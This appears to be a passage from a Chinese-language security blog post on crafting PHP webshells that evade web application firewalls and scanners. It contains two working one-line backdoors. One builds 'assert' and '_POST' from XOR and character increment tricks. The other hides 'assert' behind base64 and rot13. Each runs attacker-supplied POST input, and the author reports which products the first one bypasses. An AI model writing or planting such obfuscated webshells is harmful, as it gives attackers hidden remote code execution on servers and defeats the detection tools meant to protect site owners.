 把能想到特殊字符全部丢进去得到遍历异或的结果，然后再取我们想要的字符。这里我们就以取\_POST 为例子。

\_可以用|和#来进行异或得到：

![][8]

然后一个个找出来，得到的结果就是：

![][9]

结合我们上面的自增我们可以得到以下代码:

```
<?php
$_ = ('!'^'@');//a
$__ = $_;
$_++;#b
$_++;#c
$_++;#d
$_++;#e
$____ = $_;
$_++;#f
$_++;#g
$_++;#h
$_++;#i
$_++;#j
$_++;#k
$_++;#l
$_++;#m
$_++;#n
$_++;#o
$_++;#p
$_++;#q
$_++;#r
$___ = $_;
$_++;#s
$__ = $__.$_.$_.$____.$___;
$_++;#t
$__ = $__.$_;//assert
@$_____=('?'^'`').('-'^'}').('/'^'`').('('^'{').('~'^'*');// _POST
@$__(${$_____}[$_]);//t
?>
```

测试一下，可以过安全狗，但是过不了 D 盾，可是我们的安全等级下降了，问题不大，继续肝：

![][10]

3.编码加拼接

通过 base64 与及 rot13 编码，动态函数调用得到以下代码：

```
<?php
function moza($hello){
$b ="bmZmcmVn";
$d = str_rot13(base64_decode($b));
@$d($hello);
}
moza($_POST[1]);
?>

```


[1]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_105221.png
[2]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_105621.png
[3]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_110137.png
[4]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_111310.png
[5]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_111844.png
[6]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113023.png
[7]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113320.png
[8]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113642.png
[9]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113902.png
[10]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_114323.png
[11]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_115928.png
[12]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_120233.png
[13]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_120507.png
[14]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_131752.png